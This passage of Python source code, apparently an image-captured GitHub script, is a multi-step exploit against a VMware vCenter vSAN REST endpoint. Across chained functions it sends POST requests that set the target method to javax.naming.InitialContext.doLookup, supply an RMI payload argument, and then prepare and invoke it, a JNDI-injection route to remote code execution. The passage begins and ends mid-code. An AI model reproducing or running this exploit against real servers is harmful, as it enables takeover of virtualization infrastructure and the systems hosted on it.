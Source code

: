 ```

    data = {"methodInput": ["javax.naming.InitialContext.doLookup"]}

    r = requests.post(target, data=json.dumps(data), headers=headers, verify=False, proxies=proxies)

    if "result" in r.json():
        payload3(url)
    else:
        print ("[-] send payload failed2.")

def payload3(url):
    print("[*] Step 3 setTargetMethod to doLookup ...")

    target = url + "/ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/setTargetMethod"

    data = {"methodInput": ["doLookup"]}

    r = requests.post(target, data=json.dumps(data), headers=headers, verify=False, proxies=proxies)

    if "result" in r.json():
        payload4(url)
    else:
        print ("[-] send payload failed3.")

def payload4(url):
    print("[*] Step 4 setArguments with payload args ...")

    target = url + "/ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/setArguments"

    data = {"methodInput": [[rmi_class]]}

    r = requests.post(target, data=json.dumps(data), headers=headers, verify=False, proxies=proxies)

    if "result" in r.json():
        payload5(url)
    else:
        print ("[-] send payload failed4.")

def payload5(url):
    print("[*] Step 5 initial payload class and methods ...")

    target = url + "/ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/prepare"

    data = {"methodInput": []}

    r = requests.post(target, data=json.dumps(data), headers=headers, verify=False, proxies=proxies)

    if "result" in r.json():
        payload6(url)
    else:
        print ("[-] send payload failed5.")

def payload6(url):
    print("[*] Step 6 trigger method invoke ...")

    target = url + "/ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVmodlHelper/invoke"

    data = {"methodInput": []}
```